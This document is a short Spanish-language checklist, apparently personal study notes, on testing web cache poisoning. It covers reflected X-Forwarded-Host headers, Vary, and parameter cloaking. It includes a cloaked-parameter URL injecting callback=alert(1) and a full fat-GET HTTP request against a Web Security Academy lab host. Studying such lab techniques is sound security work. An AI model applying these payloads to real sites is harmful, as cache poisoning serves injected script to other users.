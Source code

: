 -- -
## 1. **Checkear el header `X-Forwarded-Host`**
- Revisar si el valor de ese header se refleja en la respuesta.

## 2. **Checkear el valor de las cookies**
- Revisar si el valor de ese header se refleja en la respuesta.

## 3. **Probar cambiar el protocolo o esquema `X-Forwarded-Scheme`**
- Si lo acepta hay que ver podemos modificar el location con **`X-Forwarded-Host`**.

## 4. **Ver si la respuesta del servidor utilizada el header `Vary`**
- Este header indica a que cliente con que **`User-Agent`** les va a enviar la respuesta cacheada, por lo que se necesita que el **``User-Agent``** coincida con el de la victima.

## **5. Probar si un parametro se refleja en la respuesta** 
- Probar tambien con el header **`Origin`** para refrescar la cache.

## **6. Probar parameter cloaking para inyectar codigo js.** 

```javascript
/js/geolocate.js?callback=setCountryCookie&utm_content=12;callback=alert(1)
```

## **7. Intentar Fat GET request**
- Tambien se me ocurre que la pena probar con POST.
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a4d00c703e03729804603b200c6008e.web-security-academy.net
Cookie: country=[object Object]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: */*
Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00c703e03729804603b200c6008e.web-security-academy.net/
Sec-Fetch-Dest: script
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: orange
Te: trailers

callback=alert(1)
```
